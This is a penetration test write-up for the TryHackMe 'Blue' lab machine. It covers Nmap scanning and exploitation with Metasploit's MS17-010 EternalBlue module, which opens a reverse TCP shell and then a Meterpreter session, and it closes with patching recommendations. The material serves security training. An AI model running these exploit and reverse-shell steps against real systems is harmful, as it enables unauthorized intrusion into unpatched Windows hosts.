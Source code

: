 
# Penetration Test Report – Lab Blue
 
**Tools Used:** Nmap, Metasploit

---

## ❓ Objective

Conduct a penetration test against the TryHackMe Lab Blue machine to identify open ports, determine service versions, check for known vulnerabilities, and exploit any identified weaknesses.

---

## 🕵 Reconnaissance

### Nmap Full Port Scan and Service Enumeration

**Command Used:**
```bash
db_nmap -sS -sV -T4 -p- -Pn 10.10.78.176 -vv
```

**Findings:**

| Port     | State | Service        | Version                              |
|----------|-------|----------------|--------------------------------------|
| 135/tcp  | open  | msrpc          | Microsoft Windows RPC                |
| 139/tcp  | open  | netbios-ssn    | Microsoft Windows netbios-ssn       |
| 445/tcp  | open  | microsoft-ds   | Windows 7 - 10 (Workgroup: WORKGROUP)|
| 3389/tcp | open  | tcpwrapped     | -                                    |
| 49152/tcp| open  | msrpc          | Microsoft Windows RPC                |
| 49153/tcp| open  | msrpc          | Microsoft Windows RPC                |
| 49154/tcp| open  | msrpc          | Microsoft Windows RPC                |
| 49158/tcp| open  | msrpc          | Microsoft Windows RPC                |
| 49159/tcp| open  | msrpc          | Microsoft Windows RPC                |

**OS Identified:** Windows 7 Professional SP1 x64  
**Hostname:** JON-PC  
**CPE:** cpe:/o:microsoft:windows

---

## 🔎 Vulnerability Scanning

**Command Used:**
```bash
db_nmap -sV --script vulners 10.10.78.176
```

**Vulnerabilities Identified:**

| Vulnerability             | Description                        | References                                                                                 |
|---------------------------|------------------------------------|--------------------------------------------------------------------------------------------|
| SMB Signing Not Required  | Allows man-in-the-middle attacks   | [MS KB161372](https://support.microsoft.com/help/161372), [MS KB887429](https://support.microsoft.com/help/887429) |

---

## 🛠️ Exploitation

### Exploit Used:
```bash
exploit/windows/smb/ms17_010_eternalblue
```

**Payload:**
```bash
set payload windows/x64/shell/reverse_tcp
```

**Results:**

- Target confirmed vulnerable to **MS17-010** (EternalBlue)
- Successfully exploited the target
- Gained Meterpreter session:
  - IP: 10.10.78.176
  - Session Opened: 2025-05-02 10:34:56 +0100
- Output:
  ```
  [+] 10.10.78.176:445 - WIN
  ```

---

## 👀 Post-Exploitation

- Initial shell was upgraded to Meterpreter
- System access was achieved through kernel exploit
- Gained remote code execution on target system

---

## ✅ Conclusion

The target machine was successfully compromised using the **MS17-010 EternalBlue** vulnerability, highlighting critical unpatched services running on the system. SMB Signing was also found to be disabled, further weakening the network posture.

**Recommendations:**

- Apply all critical Windows security updates
- Enable SMB Signing on all systems
- Monitor and restrict access to RPC and SMB services
- Implement host-based firewalls to block unnecessary inbound connections

---
